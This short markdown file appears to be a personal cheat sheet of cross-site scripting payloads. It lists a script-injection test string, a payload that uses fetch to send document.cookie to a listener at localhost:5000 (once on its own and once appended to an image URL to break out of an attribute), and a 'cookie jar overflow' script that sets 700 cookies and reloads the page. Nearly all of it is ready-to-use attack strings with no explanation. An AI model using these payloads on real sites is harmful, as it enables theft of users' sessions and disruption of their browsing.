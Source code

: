 ## test xss injection

"> <script><script> alert('injected')</script>

## Stealing cookie

"> <script> fetch('http://localhost:5000/' + document.cookie) </script>

https://images.unsplash.com/photo-1563360808-a0bdf4450651?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=696&q=80"> <script> fetch('http://localhost:5000/' + document.cookie) </script>

## Cookie Jar Overflow

https://images.unsplash.com/photo-1563360808-a0bdf4450651?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=696&q=80"><script>for(let i=0; i<700; i++) {document.cookie = `cookie${i}=${i}`};location.reload();</script>
